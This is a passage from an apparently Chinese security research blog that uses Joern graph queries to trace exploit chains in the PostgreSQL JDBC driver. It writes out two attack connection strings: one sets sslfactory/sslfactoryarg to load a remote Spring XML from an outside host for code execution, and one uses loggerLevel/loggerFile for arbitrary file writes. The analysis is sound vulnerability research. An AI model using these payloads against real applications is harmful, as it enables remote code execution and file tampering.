 我们仿照第一个利用链的语法，直接**模拟一下其他几个利用链的挖掘方式**

- **任意代码执行 sslfactory/sslfactoryarg**

```cypher
# sslfactory&sslfactroyarg，任意代码执行
jdbc:postgresql://127.0.0.1:5432/test/?sslfactory=org.spring.framework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=http://test.joychou.org/1.xml
```

对应的利用链其实和上一个是一样的，**入口都是connect，漏洞点都是newinstance**，这条利用链用上面的代码就可以查询到

```cypher
def sink = cpg.method.name("newInstance")
def source = cpg.method.name("connect")

findUntil(sink, source, 10).map(path => path.map(node => (node.fullName))).dedup.l
```

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311723267.png)

- **任意文件写入 loggerLevel/loggerFile**

```cypher
# loggerLevel&loggerFile，任意文件写
jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=debug&loggerFile=test.txt&test
```

这个漏洞的利用链相对特殊，其实是**利用了logger本身的功能**，通过**配置log写入的文件来实现任意文件写**

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311723891.png)

这里**类初始化的操作在joern被标记为<init>**，所以sink为

```cypher
cpg.method.where(_.name("<init>")).where(_.fullName(".*FileHandler.*"))
```

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311723607.png)

这样我们再次追利用链

```cypher
def sink = cpg.method.where(_.name("<init>")).where(_.fullName(".*FileHandler.*"))
def source = cpg.method.name("connect")

findUntil(sink, source, 10).map(path => path.map(node => (node.fullName))).dedup.l
```

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311723710.png)

## 完善利用链

在**找到可控的****newInstance位置**之后，我们还需要继续完善利用链的最后一步。

![img](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202308311723065.png)

根据我们刚才找到的漏洞位置，我们需要找到**一个对应的构造方法参数为一个String的类**来做进一步利用。
